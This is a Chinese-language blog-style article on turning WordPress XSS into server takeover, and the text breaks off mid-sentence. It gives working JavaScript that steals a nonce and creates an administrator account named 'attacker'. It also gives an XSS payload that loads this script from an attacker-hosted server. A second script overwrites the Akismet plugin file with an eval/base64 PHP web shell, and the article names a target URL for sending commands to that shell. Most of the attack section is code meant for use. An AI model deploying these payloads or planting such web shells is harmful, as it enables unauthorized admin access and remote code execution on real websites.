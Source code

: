 （从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”

### 图1.插入XSS代码以添加管理员帐户

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
